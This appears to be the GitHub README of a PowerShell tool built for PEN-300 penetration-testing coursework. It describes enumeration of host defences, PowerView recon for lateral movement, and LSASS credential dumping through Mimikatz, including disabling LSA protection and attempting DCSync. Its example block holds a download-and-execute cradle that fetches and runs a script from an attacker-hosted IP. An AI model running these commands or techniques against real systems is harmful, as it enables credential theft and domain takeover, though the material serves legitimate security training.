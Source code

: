 # osep_pwntools
Bespoke tooling for PEN-300 coursework

## pwn.ps1
This PowerShell utility script enumerates common host-based restrictions, such as whether LSA protection is disabled or AppLocker restrictions are in place.
If the system is domain-joined, the `adrecon` function is a wrapper utility for quick PowerView-based insights that can provide context for lateral movement opportunities.
The `getcreds` function is a wrapper utility for `Out-Minidump.ps1` and `Invoke-Mimikatz.ps1`, and can dump process memory from LSASS and parse out local credentials. If the `-lsa` flag is specified, it will load `mimidrv.sys` in order to remove this protection first. If the user has DCSync privileges it will also attempt to obtain them, as well as any trust link hashes.

This tool has been designed to be as fault-tolerant as possible, providing conditional checks for whether both the system and the user are domain-joined or not. To overcome the Kerberos "double-hop" problem with LDAP requests over WinRM, the script will attempt to create a PSCredential object in order to supply it with the embedded PowerView commands. I am not an expert programmer and provide no warranties that this script will work for you out of the box.

**Note:** The `-ipaddress` specifies your IP address where the dependency scripts are being hosted (assumed on TCP/80). Use the `-port` option to specify a different port.
#### Examples

```powershell
iex(iwr 192.168.22.121/pwn.ps1 -usebasicparsing)
adrecon -ipaddress LHOST_IP

getcreds -ipaddress LHOST_IP
getcreds -ipaddress LHOST_IP -lsa
```
